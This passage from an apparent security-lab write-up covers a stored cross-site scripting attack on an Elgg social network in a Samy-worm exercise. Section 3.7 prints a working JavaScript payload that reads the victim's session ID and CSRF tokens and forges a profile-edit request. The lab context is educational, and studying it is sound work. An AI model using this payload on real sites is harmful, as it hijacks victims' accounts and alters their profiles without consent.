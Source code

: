 Experiment result: the attack is successful. The admin is now a friend of Samy. And when editing Samy's profile in the text mode, the script is still there.

## 3.7 Modifying the Victim's Profile

Inserting the following code into the "About Me" field of Samy's profile:

```html
<script type="text/javascript">
window.onload = function(){
    var userName=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    var content="name="+userName+guid+ts+token+"&description=Samy+is+my+Hero!</script>&accesslevel[description]=2";
    var samyGuid=47;
    if(elgg.session.user.guid!=samyGuid)
    {
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        var sendurl="http://www.xsslabelgg.com/action/profile/edit";
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
}
</script>
```

Observation as admin:

![](images/3-7-1.png)
